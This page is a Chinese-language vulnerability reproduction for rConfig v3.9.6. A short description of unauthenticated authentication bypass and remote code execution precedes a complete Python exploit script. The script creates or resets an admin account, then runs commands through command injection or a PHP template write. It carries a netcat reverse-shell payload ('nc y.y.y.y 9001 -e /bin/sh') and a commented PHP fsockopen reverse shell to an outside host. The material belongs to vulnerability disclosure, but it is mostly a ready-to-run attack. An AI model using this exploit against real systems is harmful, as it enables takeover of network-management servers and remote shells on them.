

rConfig v3.9.6 远程命令执行
===========================

一、漏洞简介
------------

rConfig是"开源网络设备配置管理实用程序，可对设备进行频繁的配置快照。开源，由Network
Architects构建-我们知道您的需求！"

rConfig远程未经身份验证的RCE中的两个漏洞。一个漏洞允许未经身份验证的用户进行身份验证，另一个漏洞（身份验证后）允许攻击者执行任意代码。

厂商最初的反应非常迅速，并且立刻发布了一个更新版本（v3.9.6），我们最初是在v3.9.5上验证了该漏洞。但是我们发现，v3.9.6版本中同样存在安全漏洞，并将此情况反应给了厂商。目前为止，我们还不知道有没有安全补丁能够解决或缓解这两个漏洞所带来的影响。

二、漏洞影响
------------

rConfig v3.9.6 及其之前版本

三、复现过程
------------

### poc

> rConfig.py 需要修改代码里面的部分内容

    import requests

    from requests_toolbelt.multipart.encoder import MultipartEncoder

    import urllib3

    import re

    #from bs4 import BeautifulSoup

     

    urllib3.disable_warnings()

     

    url="https://x.x.x.x/" #change this to fit your URL (adding the last slash)

    payload="nc y.y.y.y 9001 -e /bin/sh"  #change this to whatever payload you want

    payload_rce= "fileName=../www/test.php&code=<%3fphp+echo+system('ls')%3b%3f>&id=3" #if you want to use Method 2 for RCE, use a PHP, urlencoded payload as the value of the code parameter

     

    print("Connecting to: {}".format(url))

    print("Connect back is set to: {}, please launch 'nc -lv 9001'".format(payload))

     

    x = requests.get(url+"login.php", verify=False)

    version = re.search("
(.*)", x.text)

    version = version.group(1)

     

    if version == "rConfig Version 3.9.5":

       print("Version 3.9.5 confirmed")

    else:

       print("Version is "+version+ " it may not be vulnerable")

     

    payload_final=";"+payload

    referer=url+"useradmin.php"

    origin=url

    proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"} #in case you need to debug the exploit with Burp, add ', proxies=proxies' to any request

     

    def createuser():

     

        multipart_data = MultipartEncoder(

           fields={

                   'username': 'test',

                   'password': 'Testing1@', #password should have a capital letter, lowercase, number and a symbol

                   'passconf': 'Testing1@',

                   'email': 'test@test.com',

                   'ulevelid': '9',

                   'add': 'add',

                   'editid': ''

                  }

           )

        headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer, "Origin":origin}

        cookies = {'PHPSESSID': 'test'}

        response = requests.post(url+'lib/crud/userprocess.php', data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)

        if "error" not in response.text:

            print("(+) User test created")

        else:

            print("(-) User couldn't be created, please debug the exploit")

     

     

    def exploit():

        payload = {

        'user': 'test',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:

                print("(+) Log in as test completed")

                params = {'path':'test',

                          'ext': payload_final

                         }

                rce=s.get(url+'lib/ajaxHandlers/ajaxArchiveFiles.php', verify=False, params=params)

                if "success" in rce.text:

                    print("(+) Payload executed successfully")

                else:

                    print("(-) Error when executing payload, please debug the exploit") #if you used method 2 to auth bypass and 1 for RCE, ignore this message

        payload = {

        'user': 'admin',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:

                print("(+) Log in as test completed")

                params = {'path':'test',

                          'ext': payload_final

                         }

                rce=s.get(url+'lib/ajaxHandlers/ajaxArchiveFiles.php', verify=False, params=params)

                if "success" in rce.text:

                    print("(+) Payload executed successfully")

                else:

                    print("(-) Error when executing payload, please debug the exploit")

     

     

    def user_enum_update():

        users=requests.get(url+'useradmin.inc.php', verify=False)

        #matchObj = re.findall(r'<td align="center">(.*?)</td>', users.text, re.M|re.I|re.S)

        

        if "admin" in users.text:

          print("(+) The admin user is present in this rConfig instance")

          multipart_data = MultipartEncoder(

           fields={

                   'username': 'admin',

                   'password': 'Testing1@', #password should have a capital letter, lowercase, number and a symbol

                   'passconf': 'Testing1@',

                   'email': 'admin@admin.com',

                   'ulevelid': '9',

                   'add': 'add',

                   'editid': '1' #you may need to increment this if you want to reset the password of a different user

                  }

           )

          headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer, "Origin":origin}

          cookies = {'PHPSESSID': 'test'}

          response = requests.post(url+'lib/crud/userprocess.php', data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)

          if "error" not in response.text:

              print("(+) The new password for the admin user is Testing1@")

          else:

              print("(-) Admin user couldn't be edited, please debug the exploit")

        elif  "Admin" in users.text:

           print("(+) There is at least one Admin user, check "+ str(url)+"useradmin.inc.php manually and modify the exploit accordingly (erase the if-elif statements of this function and modify the user payload)")

        

    def template():

        payload = {

        'user': 'admin',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        

        #<%3fphp+%24sock%3Dfsockopen%28%22192.168.1.13%22%2C1234%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%3f>

        headers_rce = {'Content-Type': "application/x-www-form-urlencoded; charset=UTF-8", "Referer": url+"deviceConnTemplates.php", "Origin":origin, "X-Requested-With": "XMLHttpRequest", "Accept-Language": "en-US,en;q=0.5"}

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:

                print("(+) Log in as admin completed")

                rce=s.post(url+'lib/ajaxHandlers/ajaxEditTemplate.php', verify=False, data=payload_rce, headers=headers_rce)

                if "success" in rce.text:

                    print("(+) File created")

                    rce_req = s.get(url+'test.php.yml', verify=False)

                    print("(+) Command results: ")

                    print(rce_req.text)

                else:

                    print("(-) Error when executing payload, please debug the exploit")

     

    def main():

        print("Remote Code Execution + Auth bypass rConfig 3.9.5 by Daniel Monzón")

        print("In the last stage if your payload is a reverse shell, the exploit may not launch the success message, but check your netcat ;)")

        print("Note: preferred method for auth bypass is 1, because it is less 'invasive'")

        print("Note2: preferred method for RCE is 2, as it does not need you to know if, for example, netcat has been installed in the target machine")

        print('''Choose method for authentication bypass:

            1) User creation

            2) User enumeration + User edit ''')

        auth_bypass=str(input("Method>"))

        if auth_bypass == "1":

           createuser()

        elif auth_bypass == "2":

           user_enum_update()

        print('''Choose method for RCE:

            1) Unsafe call to exec()

            2) Template edit ''')

        rce_method=str(input("Method>"))

        if rce_method == "1":

           exploit()

        elif rce_method == "2":

           template()

    main()
